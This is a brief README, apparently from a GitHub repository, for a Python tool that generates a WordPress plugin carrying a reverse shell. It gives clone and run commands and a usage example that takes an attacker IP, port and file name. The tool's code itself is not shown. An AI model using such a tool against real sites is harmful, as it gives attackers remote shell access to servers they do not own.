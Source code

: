 # WordPress revese shell Plugin Gnerator

## Installation
```
git clone http://github.com/root-tanishq/wp_rshell
```
```
cd wp_rshell
```
```
python3 wp_rshell.py
```

## Tool Usage

Usage = python3 wp_rshell.py [IP] [PORT] [FILE NAME]
FILE NAME = Plese dont provide extension

Example:-
    # python3 wp_rshell.py 10.10.11.100 4455 payload
